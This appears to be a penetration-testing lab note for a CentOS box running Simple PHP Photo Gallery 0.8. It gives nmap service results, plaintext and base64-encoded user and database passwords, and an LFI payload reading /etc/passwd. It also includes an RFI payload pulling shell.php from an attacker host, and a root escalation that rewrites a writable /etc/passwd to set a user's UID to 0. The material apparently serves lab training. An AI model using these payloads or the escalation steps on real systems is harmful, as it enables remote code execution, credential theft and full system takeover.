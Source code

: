 # Box IP: 192.168.244.58

---

## System Info
- **OS/Tech:** CentOS 7, Apache 2.4.6 (httpd), PHP 5.4.16  
- **App:** Simple PHP Photo Gallery v0.8

---

## Credentials
- **User:** `michael`  
- **Password:** `HockSydneyCertify123`

---

##  Service Enumeration (`nmap -sC -sV`)
| Port    | State | Service          | Version / Notes                              |
| ------- | ----- | ---------------- | --------------------------------------------- |
| **21**  | open  | ftp              | vsftpd 3.0.2 – anonymous YES (no interesting files) |
| **22**  | open  | ssh              | OpenSSH 7.4                                   |
| **80**  | open  | http             | Apache 2.4.6 + PHP 5.4.16                     |
| **111** | open  | rpcbind          | RPC #100000 (no RCP creds known)              |
| **139** | open  | netbios-ssn      | Samba smbd 3.x–4.x (enum4linux → users)       |
| **445** | open  | netbios-ssn      | Samba smbd (same workgroup)                  |
| **3306**| open  | mysql            | MySQL (no anonymous access)                   |
| **33060**|open  | mysqlx           | MySQL X Protocol                             |

---

##  Exploits & Findings

### 1. LFI
```text
http://192.168.244.58/image.php?img=../../../etc/passwd%00
```
michael	1000	1000	/home/michael	/bin/bash 

### 2.RFI
http://192.168.244.58/image.php?img=http://192.168.45.183/shell.php

### 3. Database Credentials 
SELECT * FROM users;

| username | password                                     |
-----------------------------------------------------------
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |


-- DB password: MalapropDoffUtilize1337

etc/passwd is writable by michael....

cp /etc/passwd /tmp/passwd.bak
sed -i 's/^michael:x:1000:1000:/michael:x:0:0:/' /etc/passwd
grep '^michael:' /etc/passwd
su  michael
whoami  # → root


